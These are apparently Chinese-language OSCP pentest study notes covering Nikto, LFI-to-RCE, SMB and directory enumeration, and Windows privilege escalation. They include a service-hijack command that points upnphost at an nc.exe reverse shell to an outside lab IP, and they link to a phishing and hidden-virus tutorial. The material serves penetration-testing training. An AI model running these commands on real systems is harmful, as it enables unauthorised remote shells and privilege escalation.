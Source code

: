 # Learn OSCP



*Nikto* 用于发现 *Web Server* 的默认配置、不安全的配置文件和程序。

```BASH
# nikto -h x.x.x.x  // Default 80
# nikto -h x.x.x.x -p 443,80  // multiple ports
# nikto -h https://url   // protocol, host
# nmap -p80 192.168.0.0/24 -oG - | nikto -h -   // scan multiple hosts
```



##### LFI2RCE

- 通过包含 *Web Server* 或者 *ssh* 的日志
  - 用户有权限访问日志（大多数场景下是没有权限读取日志的）
  - 找到日志所在路径
    - *apache* */var/log/apache2/error.log*  */var/log/httpd-error.log*
    - *ssh /var/log/auth.log*
-  包含 *php://filter*  或 *php://input* 来实现
-  通过 *phpinfo.php* 和 *lfi* 来实现



1. [LFI2RCE](https://www.exploit-db.com/papers/12992)

#### Privilege Escalation for Windows


- [Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html)
- [AccessChk v6.12](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) 用于确认 *windows* 用户权限
- [msfvenom-cheat-sheet](https://nitesculucian.github.io/2018/07/24/msfvenom-cheat-sheet/)

- [Windows-pentest](https://github.com/ankh2054/windows-pentest) 包含有 *xp* 版本的 *accesschk*
- [Windows_Privesec](https://gist.github.com/sckalath/8dacd032b65404ef7411) 与  [Windows Privilege Escalation Fundamentals](https://www.fuzzysecurity.com/tutorials/16.html) 的 *Roll up Your Sleeves* 比较像
- [OSCP-Windows-privilege-escalation](https://hackingandsecurity.blogspot.com/2017/09/oscp-windows-priviledge-escalation.html) 与 第一篇文章相比，条理更清晰，内容更精简， 建议结合起来使用。

#### Tips

##### SMB 信息收集

Server Message Block 协议对应的操作系统信息如下

- **SMB1** – Windows 2000, XP and Windows 2003
- **SMB2** – Windows Vista SP1 and Windows 2008
- **SMB2.1** – Windows 7 and Windows 2008 R2
- **SMB3** – Windows 8 and Windows 2012.

识别 SMB NetBIOS 服务（通常监听于 139 和 445 端口）

1. `nmap -v -p 139,445 -oG smb.txt x.x.x.1-254` 
2. `nbtscan -r  x.x.x.0/24`

3. enum4linux 该工具集成了 *smbclient*、*rpcclinet*、*net* 和 *nmblookup*

漏洞识别

```bash
root@kali:~# ls -l /usr/share/nmap/scripts/smb*

root@kali:~# nmap -v -p 139,445 --script=smb-xxx x.x.x.x
```

[经典参考资料](https://0xdf.gitlab.io/2018/12/02/pwk-notes-smb-enumeration-checklist-update1.html)





##### 路径信息收集

```shell
# gobuster dir -u http://X.X.X.X/ -w /mnt/hgfs/share/OSCP/SecLists/Discovery/Web-Content/common.txt   -s '200,204,301,302,307,403,500' -e  -t 50

# wfuzz -c -z file,/usr/share/wfuzz/wordlist/general/big.txt --hc 404 http://10.11.1.22/FUZZ
```



#####  查看当前用户身份的方式

```vbscript
# 无法执行 whoami 以及 echo %username% 的场景
# 解决方案一
echo 1>who.ami
dir /q

# 解决方案二
# 上传 kali 中的 /usr/share/windows-binaries/whoami.exe 到服务器上
```



##### 文件上传的存放位置

`C:\RECYCLER ` 通常是可读写的目录，上传的 *exp* 建议放在这儿。



##### Bash 创建特殊的文件

```bash
touch ./-filename.txt
touch -- -filename.txt
rm ./-filename.txt
rm -- --filename.txt
```

##### 查找权限存在问题的的 services

*[accesschk](https://web.archive.org/web/20111111130246/http://live.sysinternals.com/accesschk.exe)* (*Windows XP*) 可用于判断 *servcies* 的权限，总是先执行 `/acceptula`。因为第一次执行该程序会弹窗，所以带入参数来确认弹窗。

```shell
# 建议每次从命令行执行accesschk时，都带上/accepteula

accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -ucqv SSDPSRV /accepteula
accesschk.exe -ucqv upnphost /accepteula



sc config upnphost binpath= "C:\Inetpub\Scripts\nc.exe -nv 10.11.0.120 2233 -e C:\WINDOWS\System32\cmd.exe"

sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost

C:\"Documents and Settings"\Administrator\Desktop\proof.txt

```



##### 提权方式

1. 配置存在问题的 *services*
2. [*Exploiting environment variables*](http://techblog.rosedu.org/exploiting-environment-variables.html)
3. [restricted-linux-shell-escaping-techniques/](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/) 

##### 空闲时间

[社工钓鱼](https://null-byte.wonderhowto.com/how-to/hide-virus-inside-fake-picture-0168183/)


# ChangeLog
- 20190711 update
- 20190710 init

